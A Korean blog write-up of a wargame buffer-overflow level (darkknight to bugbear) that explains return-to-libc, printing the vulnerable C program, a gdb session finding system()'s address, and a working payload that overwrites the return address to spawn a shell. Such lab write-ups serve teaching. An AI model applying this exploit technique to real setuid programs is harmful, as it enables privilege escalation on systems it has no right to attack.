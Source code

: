 ```yaml
---
title: The Lord of the BOF - darkknight -> bugbear
date: 2016-09-08 17:10:00 +0900 KST
categories: [write-up]
---
```


return to library 개념 이해하기

아래는 문제의 코드

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - bugbear
    - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
    char buffer[40];
    int i;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    if(argv[1][47] == '\xbf')
    {
        printf("stack betrayed you!!\n");
        exit(0);
    }

    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

이전 단계까지는 삽입한 쉘코드의 주소를 ret에 넣어서 쉘 권한을 얻어냈었다.

그런데 옛날부터 스택을 이용한 공격은 안된지 오래다.

그래서 RTL을 쓰는데...

ret 영역에는 system 함수 주소를 넣고,
system 함수에 인자로 ebp+8이 될 곳에 "/bin/sh" 문자열의 주소를 넣으면
문제를 풀 수 있다.

```console
$ cp bugbear augbear
$ ls -l
total 28
-rwxr-xr-x    1 darkknig darkknig    12043 Sep  2 09:05 augbear
-rwsr-sr-x    1 bugbear  bugbear     12043 Mar  8  2010 bugbear
-rw-r--r--    1 root     root          385 Mar 29  2010 bugbear.c
```

gdb랑 core 덤프용으로 bugbear를 augbear로 복사하고

```sh
gdb augbear -q
```

```c-objdump
(gdb) b main
Breakpoint 1 at 0x8048436
(gdb) r
Starting program: /home/darkknight/augbear

Breakpoint 1, 0x8048436 in main ()
(gdb) print system
$1 = {} 0x40058ae0 <__libc_system>
```

system 함수 주소를 알아내고

그리고 x/10000s 쳐서 "/bin/sh"를 찾아서 풀었다.

아래는 페이로드

```sh
./bugbear `python -c 'print "A"*44 + "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40"'`
```
